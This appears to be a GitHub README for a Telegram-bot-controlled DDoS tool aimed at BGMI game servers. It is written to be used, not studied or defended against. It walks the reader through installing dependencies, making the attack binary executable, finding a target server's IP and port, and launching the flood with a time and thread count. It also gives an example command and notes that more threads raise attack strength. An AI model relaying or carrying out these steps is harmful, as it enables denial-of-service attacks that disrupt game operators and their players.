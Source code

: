 # DDOS-attack-
DDOS Attack with telegram bot
open that file in gihub codespace
then give your telegram bot id & your user id i mean edit in that script

To Run that -->
1. at first in terminal write pip install telebot(In vs code install python extensions)
2. then after installing that clear that
3. then in terminal write cd bot
4. then write chmod +x *
5. then in bgmi find the ip & port then
6. in terminal "./bgmi <ip> <port> <time> <thread>" then hit enter
7. Ex :- ./bgmi 2.448.48.54 18363 280 280    (Remember that 280 mewans in second & if you increase the thread them it will increase ddos power)
8. after executing that command your ddos attack will start
